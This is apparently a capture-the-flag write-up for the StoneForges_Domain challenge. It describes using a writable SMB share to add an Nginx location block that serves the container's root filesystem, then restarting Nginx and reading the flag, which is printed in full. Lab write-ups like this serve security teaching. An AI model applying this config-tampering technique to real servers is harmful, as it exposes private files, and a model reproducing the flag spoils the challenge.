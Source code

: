 # Secure Code: **StoneForges_Domain**

## Overview

In this challenge, we exploited a misconfigured Nginx setup on a Docker container running a Flask application. Although direct path traversal was blocked, we had write access via an SMB share, which allowed us to modify the Nginx configuration. By adding a new location block, we exposed the container’s root filesystem, letting us access the flag file.

## Steps

### 1. Accessing the SMB Share

We mounted the SMB share that contained the configuration files. The share exposed the following directory structure:

```
config/
├── nginx.conf
├── postgresql.conf
└── supervisord.conf
```

Even though the files were owned by `root` with mode `755`, only `nginx.conf` was editable.

### 2. Modifying `nginx.conf`

We edited the `nginx.conf` file to add a new location block that serves files from the root filesystem. The modified configuration is shown below:

```nginx
user www-data;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 3000;
        server_name _;

        charset utf-8;
        client_max_body_size 5M;

        location /static {
            alias /www/application/app/static/;
        }

        # New location block to expose the root filesystem.
        location /flag {
            alias /;
        }

        location / {
            proxy_pass http://127.0.0.1:8000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```

### 3. Triggering a Restart

After saving the modified `nginx.conf` via the SMB share, we triggered an Nginx restart. For example, by connecting to the appropriate restart endpoint:

```bash
nc 83.136.251.145 34603
```

This command caused Nginx to reload the new configuration.

### 4. Retrieving the Flag

With the new configuration in place, the flag file (placed at `/flag.txt` by the Dockerfile) became accessible via the URL:

```
http://83.136.251.145:59733/flag/flag.txt
```

Visiting this URL returned the flag:

```
HTB{W4LK1N9_7H3_570N3F0R93_P47H_45_R3QU1R3D_e300e8639b5e8cfcacd903a2f85bc286}
```
